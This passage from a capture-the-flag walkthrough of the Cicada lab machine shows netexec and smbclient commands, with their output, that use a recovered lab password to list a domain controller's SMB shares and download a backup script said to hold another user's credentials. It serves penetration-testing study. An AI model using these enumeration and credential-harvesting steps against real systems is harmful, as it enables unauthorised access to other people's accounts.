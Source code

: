 ## Shell as emily.oscars

### Dev Share

#### Identify

david.orelious can see the same shares, but unlike the other accesses so far, can read the `DEV` share:

```

oxdf@hacky$ netexec smb CICADA-DC -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share

```

#### Enumerate

I’ll connect with `smbclient`. There’s a single file, which I’ll grab:

```

oxdf@hacky$ smbclient -U david.orelious //CICADA-DC/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 934318 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)

```

#### Backup\_script.ps1

The script is used for creating a backup archive of `c:\smb` into the `D:\Backup` folder using emily.oscars’ credentials:
